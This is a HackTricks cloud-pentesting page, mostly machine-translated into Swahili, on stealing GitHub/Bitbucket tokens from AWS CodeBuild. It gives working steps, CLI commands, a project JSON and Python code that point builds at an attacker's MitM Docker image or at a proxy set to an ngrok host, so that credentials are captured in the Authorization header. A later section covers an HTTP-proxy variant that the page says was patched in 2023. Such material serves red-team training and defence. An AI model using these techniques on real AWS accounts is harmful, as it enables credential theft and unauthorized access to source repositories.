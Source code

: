 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recover Github/Bitbucket Configured Tokens

Kwanza, angalia kama kuna akidi za chanzo zilizowekwa ambazo unaweza kuvuja:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Ikiwa unapata kuwa uthibitisho kwa mfano Github umewekwa katika akaunti, unaweza **kuondoa** hiyo **ufikiaji** (**GH token au OAuth token**) kwa kufanya Codebuild **itumie picha maalum ya docker** kuendesha ujenzi wa mradi.

Kwa kusudi hili unaweza **kuunda mradi mpya wa Codebuild** au kubadilisha **mazingira** ya moja iliyopo ili kuweka **picha ya Docker**.

Picha ya Docker unayoweza kutumia ni [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Hii ni picha ya Docker ya msingi sana ambayo itakamilisha **env variables `https_proxy`**, **`http_proxy`** na **`SSL_CERT_FILE`**. Hii itakuruhusu kukamata sehemu kubwa ya trafiki ya mwenyeji iliyoonyeshwa katika **`https_proxy`** na **`http_proxy`** na kuamini SSL CERT iliyoonyeshwa katika **`SSL_CERT_FILE`**.

1. **Create & Upload your own Docker MitM image**
* Fuata maelekezo ya repo kuweka anwani yako ya IP ya proxy na kuweka cheti chako cha SSL na **ujenge picha ya docker**.
* **USIWEKE `http_proxy`** ili usikamate maombi kwa kiungo cha metadata.
* Unaweza kutumia **`ngrok`** kama `ngrok tcp 4444` kuweka proxy kwa mwenyeji wako.
* Mara tu unapokuwa na picha ya Docker iliyojengwa, **pakia kwenye repo ya umma** (Dockerhub, ECR...)
2. **Set the environment**
* Unda **mradi mpya wa Codebuild** au **badilisha** mazingira ya moja iliyopo.
* Weka mradi kutumia **picha ya Docker iliyozalishwa awali**

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

* Kama ilivyoonyeshwa katika **Github repo** unaweza kutumia kitu kama:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Toleo la **mitmproxy lililotumika ni 9.0.1**, iliripotiwa kwamba na toleo la 10 hii huenda isifanye kazi.
{% endhint %}

4. **Kimbia ujenzi & kamata taarifa za kuingia**

*   Unaweza kuona token katika kichwa cha **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Hii pia inaweza kufanywa kutoka kwa aws cli kwa kitu kama

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Kupitia itifaki ya HTTP~~

{% hint style="success" %}
**Ukatili huu ulirekebishwa na AWS kwa wakati fulani katika wiki ya 20 ya Februari ya 2023 (nadhani Ijumaa). Hivyo, mshambuliaji hawezi kuutumia tena :)**
{% endhint %}

Mshambuliaji mwenye **idhini za juu katika CodeBuild anaweza kuvuja token ya Github/Bitbucket** iliyowekwa au ikiwa idhini ilipangwa kupitia OAuth, **token ya muda ya OAuth inayotumika kufikia msimbo**.

* Mshambuliaji anaweza kuongeza mabadiliko ya mazingira **http\_proxy** na **https\_proxy** kwenye mradi wa CodeBuild ukielekeza kwenye mashine yake (kwa mfano `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Kisha, badilisha URL ya repo ya github kutumia HTTP badala ya HTTPS, kwa mfano: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Kisha, endesha mfano wa msingi kutoka [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) kwenye bandari iliyotajwa na mabadiliko ya proxy (http\_proxy na https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Hatimaye, bonyeza **Build the project**, **credentials** zitatumwa kwa **clear text** (base64) kwenye bandari ya mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Sasa mshambuliaji ataweza kutumia token kutoka kwa mashine yake, kuorodhesha haki zote alizo nazo na (ku)zitumia kwa urahisi zaidi kuliko kutumia huduma ya CodeBuild moja kwa moja.
{% endhint %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) au [**telegram group**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
